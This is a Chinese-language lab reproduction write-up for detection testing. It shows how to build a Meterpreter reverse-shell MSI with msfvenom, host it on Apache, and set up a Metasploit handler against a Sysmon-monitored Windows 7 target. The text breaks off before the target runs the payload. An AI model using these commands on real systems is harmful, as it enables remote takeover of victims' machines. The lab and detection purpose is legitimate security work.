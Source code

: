 ## 测试复现

### 测试环境

- **攻击机**：Kali Linux 2019，IP：192.168.126.146
- **靶机**：Windows 7，IP：192.168.126.149，Sysmon已部署
- **工具**：Metasploit（`msfvenom`和`exploit/multi/handler`）

### 测试过程

#### 1. 生成恶意MSI（攻击机）

**命令**：
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=1234 -f msi -o 1.msi
```

**说明**：
- 生成Meterpreter反向Shell MSI文件，保存为`1.msi`。
- 需将`1.msi`托管于攻击机的Web服务器（如Apache）。

#### 2. 配置Web服务器（攻击机）

**命令**：
```bash
sudo cp 1.msi /var/www/html/
sudo systemctl start apache2
```

**说明**：
- 将`1.msi`复制到Web根目录，确保靶机可通过`http://192.168.126.146/1.msi`访问。
- 启动Apache服务器。

#### 3. 配置Metasploit监听（攻击机）

**命令**：
```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.126.146
set LPORT 1234
exploit
```

**输出**：
```
[*] Started reverse TCP handler on 192.168.126.146:1234
```

**说明**：
- 配置反向TCP Shell监听，端口1234。

#### 4. 靶机执行Payload
